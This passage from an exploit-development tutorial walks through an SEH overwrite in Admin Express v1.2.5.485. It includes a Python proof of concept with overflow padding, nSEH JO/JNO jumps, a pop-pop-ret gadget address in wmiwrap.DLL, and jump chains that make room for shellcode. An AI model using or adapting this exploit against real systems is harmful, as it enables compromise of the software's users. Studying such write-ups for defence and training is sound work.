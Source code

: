 We repeat all the same steps as above to crash the application, and we see below we have reached our jump:

<img src="{{ site.url }}{{ site.baseurl }}/images/11.png" alt="">

Awesome! The jump is ready to be taken! Our `O` flag is set to 0 at the current time of the instruction, so our jump will occur when the `JNO` operation is loaded into EIP for execution. We have a slight issue though. Look at the image below:

<img src="{{ site.url }}{{ site.baseurl }}/images/12.png" alt="">

We see there are some null bytes. These bytes are contained in our buffer of C's, not much farther down than our jump instruction. I am a paranoid person when it comes to having enough space for shellcode. Therefore, I decided to change my PoC to add __a lot__ more jumps. This way, we get way the heck away from those null bytes and we will have plenty of room to write our shellcode.  Here is the updated PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += "\x43" * (5000-len(payload))
```

We now have enough room to work with after making all the jumps! After we take our jumps, we are going to start documenting some information that will be integral to our smuggling of shellcode. Let's take a look at the following image, after the execution of our jumps:

<img src="{{ site.url }}{{ site.baseurl }}/images/13.png" alt="">

Will the Stars Align?
---
As you can see, we have reached the buffer of C's. Let's take note of some addresses here! The address of the current instruction `INC EBX` is located at `0012F313`. We can also see below that the current address of our stack pointer is at `0012DC98`:

<img src="{{ site.url }}{{ site.baseurl }}/images/14a.png" alt="">
